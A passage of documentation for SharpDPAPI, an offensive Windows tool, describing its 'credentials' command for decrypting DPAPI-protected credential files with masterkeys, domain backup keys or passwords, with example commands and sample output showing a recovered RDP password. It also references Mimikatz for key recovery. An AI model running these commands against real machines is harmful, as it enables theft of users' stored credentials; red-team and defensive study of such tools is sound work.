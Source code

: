 The **credentials** command will search for Credential files and either a) decrypt them with any "{GUID}:SHA1" masterkeys passed, b) a `/mkfile:FILE` of one or more {GUID}:SHA1 masterkey mappings, c) use a supplied DPAPI domain backup key (`/pvk:BASE64...` or `/pvk:key.pvk`) to first decrypt any user masterkeys (a la **masterkeys**), or d) a `/password:X` to decrypt any user masterkeys, which are then used as a lookup decryption table. DPAPI GUID mappings can be recovered with Mimikatz' `sekurlsa::dpapi` command.

A specific credential file (or folder of credentials) can be specified with `/target:FILE` or `/target:C:\Folder\`. If a file is specified, {GUID}:SHA1 values are required, and if a folder is specified either a) {GUID}:SHA1 values must be supplied or b) the folder must contain DPAPI masterkeys and a /pvk domain backup key must be supplied.

If run from an elevated context, Credential files for ALL users will be triaged, otherwise only Credential files for the current user will be processed.

Using domain {GUID}:SHA1 masterkey mappings:

    C:\Temp>SharpDPAPI.exe credentials {44ca9f3a-9097-455e-94d0-d91de951c097}:9b049ce6918ab89937687...(snip)... {feef7b25-51d6-4e14-a52f-eb2a387cd0f3}:f9bc09dad3bc2cd00efd903...(snip)...

      __                 _   _       _ ___
     (_  |_   _. ._ ._  | \ |_) /\  |_) |
     __) | | (_| |  |_) |_/ |  /--\ |  _|_
                    |
      v1.2.0


    [*] Action: User DPAPI Credential Triage

    [*] Triaging Credentials for ALL users


    Folder       : C:\Users\harmj0y\AppData\Local\Microsoft\Credentials\

      CredFile           : 48C08A704ADBA03A93CD7EC5B77C0EAB

        guidMasterKey    : {885342c6-028b-4ecf-82b2-304242e769e0}
        size             : 436
        flags            : 0x20000000 (CRYPTPROTECT_SYSTEM)
        algHash/algCrypt : 32772/26115
        description      : Local Credential Data

        LastWritten      : 1/22/2019 2:44:40 AM
        TargetName       : Domain:target=TERMSRV/10.4.10.101
        TargetAlias      :
        Comment          :
        UserName         : DOMAIN\user
        Credential       : Password!

      ...(snip)...


Using a domain DPAPI backup key to first decrypt any discoverable masterkeys:
 
    C:\Temp>SharpDPAPI.exe credentials /pvk:HvG1sAAAAAABAAAAAAAAAAAAAAC...(snip)...

      __                 _   _       _ ___
     (_  |_   _. ._ ._  | \ |_) /\  |_) |
     __) | | (_| |  |_) |_/ |  /--\ |  _|_
                    |
      v1.2.0
